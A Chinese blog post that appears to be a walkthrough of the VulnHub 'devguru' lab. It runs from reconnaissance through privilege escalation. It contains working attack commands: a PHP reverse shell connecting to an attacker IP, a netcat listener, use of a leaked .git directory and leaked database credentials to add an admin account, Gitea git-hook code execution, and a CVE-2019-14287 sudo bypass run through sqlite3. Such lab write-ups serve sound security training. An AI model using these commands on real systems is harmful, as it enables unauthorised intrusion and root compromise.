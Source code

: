 ```yaml
---
title: 靶场实战：devguru
date: 2025-5-3 23:29:53
tags: 
-  linux提权
-  web渗透  
-  vulnhub靶场
category: 靶场实战
renderNumberedHeading: true
emoji: 🎇
color: 'var(--base0A)'
---
```


靶机地址[devguru](https://www.vulnhub.com/entry/devguru-1,620/)

#### 信息收集

常规扫描

`sudo nmap 192.168.1.0/24 -sn`靶机发现192.168.1.138

![](https://raw.githubusercontent.com/ta3shi/image/main/shujiang/1746278830305.png)

`sudo nmap $ip -p- --min-rate=10000`端口扫描22,80,8585

![](https://raw.githubusercontent.com/ta3shi/image/main/shujiang/1746278873458.png)

`sudo nmap $ip -p$ports -sT -sC -sV -O -oA devguru/detail`细节扫描，tcp协议扫描对应端口，-sC使用默认脚本，-SV扫描版本信息，-O确定操作系统，-oA格式化输出

![](https://raw.githubusercontent.com/ta3shi/image/main/shujiang/1746278893053.png)

![](https://raw.githubusercontent.com/ta3shi/image/main/shujiang/1746278903236.png)

80端口存在git泄露，8585端口运行了gitea

`sudo nmap -sU --top-ports 20 $ip -oA devguru/udp`扫描udp的常见端口，有时可以多指定一些端口

![enter description here](https://raw.githubusercontent.com/ta3shi/image/main/shujiang/1746278926588.png)

目录扫描，有时一个工具没有收获可以多试试几个工具（如dirb，dirsearch，gobuster等）

80端口目录

![](https://raw.githubusercontent.com/ta3shi/image/main/shujiang/1746278960600.png)

8585端口的目录

![enter description here](https://raw.githubusercontent.com/ta3shi/image/main/shujiang/1746278981133.png)

#### 开始渗透

80端口存在git泄露，使用githack工具下载下来

`sudo python GitHack.py http://192.168.1.138`

![](https://raw.githubusercontent.com/ta3shi/image/main/shujiang/1746279056940.png)

重点查看配置相关文件

config下的database.php发现数据库信息

![](https://raw.githubusercontent.com/ta3shi/image/main/shujiang/1746279073567.png)

访问80端口的adminer.php发现是数据库管理

![](https://raw.githubusercontent.com/ta3shi/image/main/shujiang/1746279098699.png)

使用刚刚获取的信息登录

优先关注users等信息，只找到一个backend_users的表，此时有两个思路，1修改原来管理员的密码，危险程度较高，容易被发现，2是新建一个用户，危险程度较低，这里选择新建用户
![enter description here](https://raw.githubusercontent.com/ta3shi/image/main/shujiang/1746279119471.png)

最后is_superuser要设置为1，在用户组将我们新建的用户归类到管理员组

同时根据数据库加上80端口扫描的目录backend,访问并登录

登录之后在cms -add - code输入反弹shell的指令

```
function onStart(){
//nc监听7777端口
    $s   =fsockopen("192.168.1.114",5555);
    $proc=proc_open("/bin/sh -i", array(0=>$s, 1=>$s, 2=>$s),$pipes);
}
```

![](https://raw.githubusercontent.com/ta3shi/image/main/shujiang/1746279130337.png)

同时开启本地监听`nc -lvvp 5555`

访问/home1（新建网页名称）执行代码获取shell

成功拿到shell
![](https://raw.githubusercontent.com/ta3shi/image/main/shujiang/1746279147662.png)

#### 权限提升

##### 获取高交互shell

使用`python3 -c 'import pty;pty.spawn("/bin/bash")'`获得交互更好的shell（使用什么版本的python主要看环境有什么版本）

读取/etc/passwd文件发现只有root和frank用户有/bin/bash即允许ssh且有高交互shell

1

尝试读取shadow文件权限不允许，通常shadow文件都是只有root用户有权限的，但是也不一定，如果可以读取就可以利用该文件进行hash碰撞

使用python启动一个快速http服务共享文件`python -m http.server`

使用wget下载linpeas.sh和LinEnum.sh

![](https://raw.githubusercontent.com/ta3shi/image/main/shujiang/1746279178588.png)

提升权限并运行脚本

![](https://raw.githubusercontent.com/ta3shi/image/main/shujiang/1746279195376.png)

suid不存在提权，看看sudo，需要密码，无法获得

![](https://raw.githubusercontent.com/ta3shi/image/main/shujiang/1746279207508.png)

查看备份文件
![](https://raw.githubusercontent.com/ta3shi/image/main/shujiang/1746279217041.png)

##### 获取普通用户

发现新的服务器连接
![enter description here](https://raw.githubusercontent.com/ta3shi/image/main/shujiang/1746279262092.png)

同样查看user，因为我们已经获取了web的权限，因此这里我们想要获取frank用户的权限，所以这里的选择是更改frank的密码
![enter description here](https://raw.githubusercontent.com/ta3shi/image/main/shujiang/1746279271344.png)

原来的gitea的加密方式是pbkdf2且有salt，我们选择换一个加密方式，bcrypt，使用网站实现（我这里尝试了几种方式，只有bcrypt可行，有的博客使用了原加密方式，但没说清楚salt值的获取）[在线Bcrypt密码生成工具-Bejson.com](https://www.bejson.com/encrypt/bcrpyt_encode/#google_vignette)

`$2a$10$sV1DF9po/5T1BE2dsy2OueGZ/VuPrUrwDR6aA88Ygu2gv6GPeGtzO`

结合目录扫描的结构gitea在8585端口
![enter description here](https://raw.githubusercontent.com/ta3shi/image/main/shujiang/1746279287060.png)

左下角显示gitea的版本是1.12.5

该版本存在以下漏洞

setting -> git hook输入命令

然后编辑 readme.md 随便编辑即可执行
![enter description here](https://raw.githubusercontent.com/ta3shi/image/main/shujiang/1746279380648.png)

成功拿到
![](https://raw.githubusercontent.com/ta3shi/image/main/shujiang/1746279429126.png)

存在sqlite3无需密码使用
![enter description here](https://raw.githubusercontent.com/ta3shi/image/main/shujiang/1746279453993.png)

#### sqlite3配合sudo漏洞提权

发现特权命令/usr/bin/sqlite3使用网站查找[GTFOBins](https://gtfobins.github.io/)

![](https://raw.githubusercontent.com/ta3shi/image/main/shujiang/1746279463974.png)

复制，执行，发现

![](https://raw.githubusercontent.com/ta3shi/image/main/shujiang/1746279479812.png)
![](https://raw.githubusercontent.com/ta3shi/image/main/shujiang/1746279489723.png)

sudo的版本是1.8.21，存在一个[CVE-2019-14287：sudo权限绕过漏洞分析与复现 - FreeBuf网络安全行业门户](https://www.freebuf.com/vuls/217089.html)的漏洞

这里可以使用该漏洞配合sqlite3提权

`sudo -u#-1 sqlite3 /dev/null '.shell /bin/sh'`
![enter description here](https://raw.githubusercontent.com/ta3shi/image/main/shujiang/1746279496031.png)